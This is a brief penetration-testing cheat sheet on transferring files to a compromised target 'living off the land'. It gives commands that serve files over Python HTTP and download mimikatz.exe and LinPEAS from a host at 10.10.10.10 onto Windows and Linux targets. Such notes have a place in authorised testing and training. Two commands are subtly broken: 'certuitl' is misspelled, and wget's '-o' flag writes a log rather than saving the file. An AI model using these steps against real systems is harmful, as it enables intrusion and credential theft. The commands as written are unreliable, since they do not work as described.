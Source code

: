 # Transferring Files to Target

After gaining initial access to a system, we'll almost always need to transfer files over. And sometimes, we won't have access to a Meterpreter shell and as a result, we will learn to live off the land. We have to learn how to use existing binaries to upload and download files and binaries.

#### SET UP A PYTHON HTTP SERVER:

```sh
python2 -m SimpleHTTPServer [PORT]
python3 -m http.server [PORT]
```

#### TRANSFERRING FILES TO WINDOWS TARGETS:

```sh
certuitl -urlcache -f http://10.10.10.10/mimikatz.exe C:/tmp/mimikatz.exe
```

#### TRANSFERRING FILES TO LINUX TARGETS:

```sh
wget http://10.10.10.10/LinPEAS.sh -o /tmp/LinPEAS.sh
```

Use the Temp directory to store all the files that we transfer to the target. 